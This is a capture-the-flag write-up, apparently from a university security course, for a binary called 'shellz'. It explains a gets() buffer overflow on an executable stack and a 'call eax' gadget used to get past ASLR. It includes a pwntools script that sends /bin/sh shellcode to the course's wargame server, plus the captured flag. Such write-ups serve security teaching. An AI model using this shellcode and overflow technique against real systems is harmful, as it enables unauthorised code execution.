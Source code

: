 shellz
===========================

General overview of problems faced
-------------------------------------
- Had to learn how to beat aslr

List of vulnerabilities
------------------------
1. The program uses gets which can result in a buffer overflow as it continues to read into an array without checking boundaries

2. The stack is executable. We can overwrite the return address to stack and whatever was written in the buffer can be overwritten

Steps to exploit
------------------
1. Used checksec to find was security measure was enabled. Everything was turned off except for ASLR
2. Disassemble the code and notice how it only has one function (main)
3. The gets function is used in main, a buffer overflow attack can be used with shellcode to gain a shell
4. As ASLR is enabled run the binary a few times in GDB and try to find an address that doesn't change
5. Notice that eax holds our input and doesn't change. We can use this to overwrite the return address
6. To get the address of eax use ROPgadget and grep for call eax to get the address
7. Send the send the shellcode, the payload to cause a buffer overflow and the address of call eax to gain access to the shell
8. Cat the flag

Script/Command used
------------------
```
#!/usr/bin/python
from pwn import *

#p = process("./shellz")
p = remote("wargames.6447.sec.edu.au", 5004)

shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
payload = (8204 - len(shellcode))*"A"
eax_addr = p32(0x08048406)

p.sendline(shellcode + payload + eax_addr)
p.interactive()

```

`6447{1849748d-6e69-4bca-ab03-67b0778ef9bb}`

stack-dump
===========================
